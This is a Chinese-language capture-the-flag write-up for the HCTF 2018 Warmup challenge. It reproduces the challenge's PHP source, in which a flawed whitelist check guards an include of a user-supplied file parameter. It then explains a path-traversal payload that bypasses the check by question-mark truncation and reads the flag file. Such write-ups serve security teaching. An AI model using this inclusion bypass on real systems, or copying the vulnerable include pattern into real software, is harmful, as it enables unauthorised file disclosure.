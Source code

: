 ```yaml
---
title: HCTF 2018 Warmup
date: 2022-05-14 22:08:52
toc: false
tags:
- CTF
- 代码审计
categories: CTF
my: HCTF2018_Warmup
---
```


进入题目只有一个滑稽  我们直接F12看源码发现有一个非常明显的提示 我们直接访问source.php

![](https://s2.loli.net/2022/05/14/UJPSW2dD8os1lG5.png)

得到源码

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

新的提示！hint.php直接访问 （这也太直白了hhh）

![image.png](https://s2.loli.net/2022/05/14/SIdFDHzUeRYuQpa.png)

我们继续代码审计，下面这段代码的意思是source.php接收一个file参数，当file这个参数满足以下三个条件时返回file指定的文件，否则输出一张图片。

```php
if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
```

1. file参数不为空
2. file参数是一个string类型
3. file参数能够通过checkFile的检验

```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];//设定白名单
if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
//如果file不存在或非字符串，输出"you can't see it"并返回false。


if (in_array($page, $whitelist)) {
                return true;
            }
//如果file参数在白名单中，返回true。访问 source.php?file=source.php 可以看到输出了两次页面源码，证明在这里返回了true。


$_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            $_page = urldecode($page);//上下部分完全相同
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

这段代码在 *$_page = urldecode($page);* 上下的部分都是完全一样的，只是为了防止用户传参时符号被urlencode而无法解析。它的作用是在用户传的file中，从开始截取到第一个问号处（不含问号），如果file中不存在问号，就在file后加一个。将截取后的字符串再与白名单做对比，如果可以就返回true。

我们可以可以通过访问 *source.php?file=source.php?* 来进行验证，这时可以看到页面源码只输出了一次，但并没有输出"you can't see it"，证明白名单检验通过，但source.php?这个文件是不存在的，所以没有任何输出

那么我们就可以利用这里来访问到根目录下的ffffllllaaaagggg

直接构造payload:

```
sosource.php?file=source.php?/../../../../ffffllllaaaagggg
```

在source.php?后加一个"/"这时source.php会被视为一个文件夹，后面每一级的".."意为上一层文件夹，通过不断尝试加入"../"最后可以知道具体的目录层级，以访问到ffffllllaaaagggg。

![image.png](https://s2.loli.net/2022/05/14/DrqKcUvBheYSZIk.png)
